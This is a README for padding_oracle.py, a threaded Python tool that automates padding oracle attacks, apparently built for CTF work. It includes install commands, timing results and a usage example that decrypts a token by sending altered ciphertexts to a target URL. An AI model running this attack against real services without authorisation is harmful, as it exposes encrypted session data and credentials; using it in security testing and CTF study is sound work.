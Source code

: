 # padding_oracle.py

Fast threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script for Python 3.

## Install

PyPI:

```shell
pip3 install -U padding_oracle
```

GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Usage

Let's say we are going to test `https://the.target.site/api/?token=BASE64_ENCODED_TOKEN`

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext = base64_decode('BASE64_ENCODED_TOKEN')
# becomes IV + block1 + block2 + ...

assert len(cipher) % 16 == 0

plaintext = padding_oracle(
    ciphertext, # cipher bytes
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```

This package also provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

This project is licensed under the terms of the MIT license.

<!-- PiuPiuPiu -->
